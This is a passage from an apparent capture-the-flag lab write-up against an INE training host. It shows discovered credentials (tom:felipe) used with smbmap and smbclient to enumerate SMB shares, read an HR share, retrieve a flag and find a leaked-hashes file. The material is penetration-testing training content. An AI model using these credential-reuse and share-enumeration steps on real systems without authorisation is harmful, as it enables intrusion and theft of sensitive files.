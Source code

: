 Here we found that username tom password is felipe, `tom:felipe`  and now that we have the information let’s start use the smbmap to identify any files that we can gathering using these creds.

We found some interesting files, Let’s take a look at `HRDocuments` and we Found the Flag1 and we also found something others such as Leaked-hashes. 

```bash
┌──(root㉿INE)-[~]
└─# smbmap -H target.ine.local -u tom -p felipe                                                                                                                                          

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
 SMBMap - Samba Share Enumerator v1.10.2 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authentidated session(s)                                                      
                                                                                                                                            
[+] IP: 10.5.16.222:445 Name: target.ine.local          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        D$                                                      NO ACCESS       Default share
        HRDocuments                                             READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        ITResources                                             NO ACCESS
        print$                                                  READ ONLY       Printer Drivers

```

```bash
┌──(root㉿INE)-[~]
└─# smbclient //target.ine.local/HRDocuments -U tom                                                                                                                                      
Password for [WORKGROUP\tom]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat May 31 19:15:38 2025
  ..                                  D        0  Sat May 31 19:15:38 2025
  flag1.txt                           A       34  Sat May 31 19:15:38 2025
  leaked-hashes.txt                   A     6665  Fri Jun 14 11:35:55 2024

                5678591 blocks of size 4096. 58043 blocks available
smb: \> get flag1.txt
getting file \flag1.txt of size 34 as flag1.txt (3.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
smb: \> !cat flag1.txt
f8c013534b1f4702bb8b12*******
```

---